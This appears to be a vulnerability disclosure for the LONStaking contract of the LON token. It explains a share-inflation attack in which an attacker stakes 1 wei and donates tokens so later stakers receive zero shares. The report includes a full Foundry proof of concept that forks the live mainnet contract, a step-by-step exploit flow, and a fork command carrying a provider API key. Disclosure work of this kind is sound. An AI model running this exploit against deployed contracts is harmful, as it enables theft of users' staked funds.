



## Title: by staking very small amount of tokens,attacker steals the user funds and here user gets 0 shares in return

### Description

#### Intro
by staking very small amount of tokens and then making `share = _amount.mul(totalShares).div(totalLon);` to zero by transferring the required amount of tokens(`totalLon`) without calling the `stake()` function,attaker steals the entire user funds and user gets 0 shares in return(refer POC).

#### vulnerability description

i found a critical bug in LONStaking,where attacker manipulates share = _amount.mul(totalShares).div(totalLon); and steal users funds by unstaking it(i have demonstrated the attacker strategy using fork testing in POC).here LONStaking contract is a staking contract for the LON token. It allows users to stake their LON tokens and earn rewards.Users can stake their LON tokens in the contract by calling the stake() function. The staked tokens are represented as shares in the contract. The number of shares a user gets when they stake is calculated by share = _amount.mul(totalShares).div(totalLon);.here totalLon = lonToken.balanceOf(address(this)); and totalShares = totalSupply();.here attacker can mainputate the totoalLon by directly tranfering tokens to the contract.

```
 function stake(uint256 _amount) public nonReentrant whenNotPaused {
        _stake(msg.sender, _amount);
        lonToken.transferFrom(msg.sender, address(this), _amount);
    }


```

```
function _stake(address _account, uint256 _amount) internal {
        require(_amount > 0, "cannot stake 0 amount");

        // Mint xLON according to current share and Lon amount
        uint256 totalLon = lonToken.balanceOf(address(this));
        uint256 totalShares = totalSupply();
        uint256 share;
        if (totalShares == 0 || totalLon == 0) {
            share = _amount;
        } else {
            share = _amount.mul(totalShares).div(totalLon);
        }
        // Update staker's Cooldown timestamp
        stakersCooldowns[_account] = _getNextCooldownTimestamp(
            block.timestamp,
            share,
            _account,
            balanceOf(_account)
        );

        _mint(_account, share);
        emit Staked(_account, _amount, share);
    }

```

#### Impact

attacker steals the users tokens

### Proof Of Concept

below is the POC using foundry.by forking the actual contract deployed on blockchain i have demonstrated the strategy of the attacker

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;


import {console2} from "forge-std/console2.sol";
import {Test} from "forge-std/Test.sol";

interface LONStaking {
    event Approval(address indexed owner, address indexed spender, uint256 value);
    event Cooldown(address indexed user);
    event OwnerChanged(address indexed oldOwner, address indexed newOwner);
    event OwnerNominated(address indexed newOwner);
    event Paused(address account);
    event Recovered(address token, uint256 amount);
    event Redeem(address indexed user, uint256 share, uint256 redeemAmount, uint256 penaltyAmount);
    event SetCooldownAndRageExitParam(uint256 coolDownInDays, uint256 bpsRageExitPenalty);
    event Staked(address indexed user, uint256 amount, uint256 share);
    event Transfer(address indexed from, address indexed to, uint256 value);
    event Unpaused(address account);

    function BPS_RAGE_EXIT_PENALTY() external view returns (uint256);
    function COOLDOWN_IN_DAYS() external view returns (uint256);
    function COOLDOWN_SECONDS() external view returns (uint256);
    function DOMAIN_SEPARATOR() external view returns (bytes32);
    function PERMIT_TYPEHASH() external view returns (bytes32);
    function acceptOwnership() external;
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
    function cooldownRemainSeconds(address _account) external view returns (uint256);
    function decimals() external view returns (uint8);
    function decreaseAllowance(address spender, uint256 subtractedValue) external returns (bool);
    function increaseAllowance(address spender, uint256 addedValue) external returns (bool);
    function initialize(address _lonToken, address _owner, uint256 _COOLDOWN_IN_DAYS, uint256 _BPS_RAGE_EXIT_PENALTY)
        external;
    function lonToken() external view returns (address);
    function name() external view returns (string memory);
    function nominateNewOwner(address newOwner) external;
    function nominatedOwner() external view returns (address);
    function nonces(address) external view returns (uint256);
    function owner() external view returns (address);
    function pause() external;
    function paused() external view returns (bool);
    function permit(
        address _owner,
        address _spender,
        uint256 _value,
        uint256 _deadline,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) external;
    function previewRageExit(address _account) external view returns (uint256 receiveAmount, uint256 penaltyAmount);
    function rageExit() external;
    function recoverERC20(address _tokenAddress, uint256 _tokenAmount) external;
    function redeem(uint256 _share) external;
    function renounceOwnership() external;
    function setCooldownAndRageExitParam(uint256 _COOLDOWN_IN_DAYS, uint256 _BPS_RAGE_EXIT_PENALTY) external;
    function stake(uint256 _amount) external;
    function stakeWithPermit(uint256 _amount, uint256 _deadline, uint8 _v, bytes32 _r, bytes32 _s) external;
    function stakersCooldowns(address) external view returns (uint256);
    function symbol() external view returns (string memory);
    function totalSupply() external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function unpause() external;
    function unstake() external;
}

interface Lon {
    event Approval(address indexed owner, address indexed spender, uint256 value);
    event MinterChanged(address minter, address newMinter);
    event OwnerChanged(address indexed oldOwner, address indexed newOwner);
    event OwnerNominated(address indexed newOwner);
    event Transfer(address indexed from, address indexed to, uint256 value);

    function DOMAIN_SEPARATOR() external view returns (bytes32);
    function PERMIT_TYPEHASH() external view returns (bytes32);
    function acceptOwnership() external;
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
    function burn(uint256 amount) external;
    function cap() external view returns (uint256);
    function decimals() external view returns (uint8);
    function decreaseAllowance(address spender, uint256 subtractedValue) external returns (bool);
    function emergencyRecipient() external view returns (address);
    function emergencyWithdraw(address token) external;
    function increaseAllowance(address spender, uint256 addedValue) external returns (bool);
    function mint(address to, uint256 amount) external;
    function minter() external view returns (address);
    function name() external view returns (string memory);
    function nominateNewOwner(address newOwner) external;
    function nominatedOwner() external view returns (address);
    function nonces(address) external view returns (uint256);
    function owner() external view returns (address);
    function permit(address owner, address spender, uint256 value, uint256 deadline, uint8 v, bytes32 r, bytes32 s)
        external;
    function renounceOwnership() external;
    function setMinter(address newMinter) external;
    function symbol() external view returns (string memory);
    function totalSupply() external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
}


contract ForkTest_tokenlon is Test {
    LONStaking public staking;
    //TestToken public token;
    Lon public lon;
    function setUp() public{
        staking = LONStaking(0x413eCcE5d56204962090eEF1deaD4c0a247e289B);
        //token = new TestToken();
        lon = Lon(0x0000000000095413afC295d19EDeb1Ad7B71c952);

    }
    function testStake() public{
        staking.initialize(address(lon),address(100),50,100);
        deal(address(10),11 ether);
        vm.prank(address(0x00738C1d1eA10b2524e2E974C5F72E8eA06E3A3D));
        //attacker
        lon.mint(address(10),11 ether);
        uint balanceBeforeExploit = lon.balanceOf(address(10));
        console2.log("balance Before Exploit :",balanceBeforeExploit);
        vm.startPrank(address(10));
        lon.approve(address(staking),11 ether);
        staking.stake(1 wei);
        lon.transfer(address(staking),10 ether);
        // console2.log("after transfer :",lon.balanceOf(address(10)));
        vm.stopPrank();
        //bob
        vm.prank(address(0x00738C1d1eA10b2524e2E974C5F72E8eA06E3A3D));
        lon.mint(address(2),10 ether);
        vm.startPrank(address(2));
        lon.approve(address(staking),10 ether);
        staking.stake(10 ether);
        vm.stopPrank();
        //alex
        vm.prank(address(0x00738C1d1eA10b2524e2E974C5F72E8eA06E3A3D));
        lon.mint(address(3),20 ether);
        vm.startPrank(address(3));
        lon.approve(address(staking),20 ether);
        staking.stake(20 ether);
        vm.stopPrank();
        //jane
        vm.prank(address(0x00738C1d1eA10b2524e2E974C5F72E8eA06E3A3D));
        lon.mint(address(4),20 ether);
        vm.startPrank(address(4));
        lon.approve(address(staking),20 ether);
        staking.stake(20 ether);
        vm.stopPrank();
        vm.startPrank(address(10));
        staking.unstake();
        staking.rageExit();
        uint balanceAfterExploit = lon.balanceOf(address(10));
        console2.log("after exploit :",balanceAfterExploit);
        console2.log("Profit : ",balanceAfterExploit-balanceBeforeExploit);
        vm.stopPrank();


    }
}


```

forge test --fork-url https://eth-mainnet.g.alchemy.com/v2/7Ik64AWmjwRrYGwA67SIbBPBi23BLLpE --match-path test/tokenlon.t.sol -vvvv 
->above is my temporary url of mainnet fork provider,feel free to use it.










#### exploit flow

```
## Tokenlon staking exploit

attacker:stake 1 wei of tokens

tokenlon = 0;

totalshares = 0;

share = amount = 1;

now,

tokenlon = 1wei

totalshares = 1

attacker directly transfer 10 ether i.e 10000000000000000000 to manipulate the ratio

here

now tokenlon = 10000000000000000001

totalshares = 1

user(bob):stake 10eth

tokenlon = 10000000000000000001

totalsupply = 1

share  = 10000000000000000000*1/10000000000000000001 = 0 // here bob got 0 share in return for staking 10eth

now

tokenlon = 20000000000000000001

totalSupply = 1;

user(alex):stake 20eth

tokenlon = 20000000000000000001

totalSupply = 1;

share  =  20000000000000000000(20eth)*1/20000000000000000001 = 0//here alex got 0 shares in return for staking 20eth

now

tokenlon =  40000000000000000001

totalShare/supply = 1;

user(jane):stake 20eth

tokenlon = 40000000000000000001

totalshares = 1

share = 20000000000000000000(20eth)*1/40000000000000000001=0//here jane got 0 shares in return for staking 20eth
```